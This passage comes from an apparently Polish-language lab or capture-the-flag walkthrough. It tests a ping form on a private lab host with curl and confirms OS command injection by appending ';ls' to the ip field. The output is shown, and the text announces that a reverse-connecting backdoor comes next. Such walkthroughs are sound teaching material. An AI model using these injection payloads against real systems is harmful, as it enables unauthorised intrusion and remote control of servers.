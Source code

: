 ![login](/assets/images/hacking/2021/01/05.png)

No ładnie, nowe przeglądarki (2021 rok) nie obsługują poprawnie kodu z 2011 roku ;) Nic to. Żeby "pomóc" przeglądarce spingować ip możemy użyć Burp suite lub **Curla**. Użyjemy **Curla**. Parametry mamy podane w kodzie źródłowym.
{: .text-justify}

```bash
# curl -X POST -d 'ip=127.0.0.1&submit=submit' http://172.16.1.238/pingit.php
127.0.0.1<pre>PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=0 ttl=64 time=0.021 ms
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.026 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.024 ms
```

Sukces, działa! Sprawdźmy czy jest podatność na Code Injection?
{: .text-justify}

```bash
# curl -X POST -d 'ip=127.0.0.1;ls&submit=submit' http://172.16.1.238/pingit.php
127.0.0.1;ls<pre>PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=0 ttl=64 time=0.022 ms
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.026 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.025 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 1999ms
rtt min/avg/max/mdev = 0.022/0.024/0.026/0.004 ms, pipe 2
index.php
pingit.php
```
Jest podatność! Jesteśmy prawie w domu. To co nam zostało to wrzucić backdoora, który się połączy z naszą maszyną atakującą.
